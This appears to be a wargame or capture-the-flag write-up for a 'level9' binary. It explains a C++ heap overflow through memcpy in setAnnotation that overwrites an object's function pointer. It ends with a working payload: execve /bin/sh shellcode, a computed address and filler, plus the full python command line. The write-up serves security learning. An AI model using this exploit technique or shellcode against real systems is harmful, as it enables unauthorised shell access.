

we can see from binary ninja that the program is probably cpp as the class `N` imply.

the class N contain a number, and a `char *` which is set from `argv[1]`.
the end of main use the operator+ of the class to sum two `N` elements together and return the result.
the operator+ function is defined right after the setAnnotation function which `memcpy(&annotation, argv[1], strlen(argv[1]))`, here we can buffer overflow the internal annotation and write memory.
we can overwrite the function pointer of the class to execute our shellcode.

we can see in binary ninja that to execute the operator+, in assembly it actually dereference the first `N` two times : `return (**eax_1)(eax_1, eax)`.

it mean that our exploit needs to include it's own address twice, so that the first dereference point to the string, and the second point to itself, so that the shellcode is executed.
the exploit will look like this:
`"own adress + shellcode + filler" + addr of the string`

running `ltrace ./level9 iiii` we can see the call to memcpy, and the dest address; `0x0804a00c`.
the difference between the memcpy call and the previous call gives us the size of the buffer; `0x804a078` - `0x0804a00c` = 108.
using the same shellcode as level2, which is 25 long, + 4 byte for the address, we must add 79 of filling.

`\x0c\xa0\x04\x08 + \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80 + i*79 + \x0c\xa0\x04\x08`

running it:
`./level9 $(python -c "print '\x0c\xa0\x04\x08' + '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80' + 'i'*79 + '\x0c\xa0\x04\x08'")`
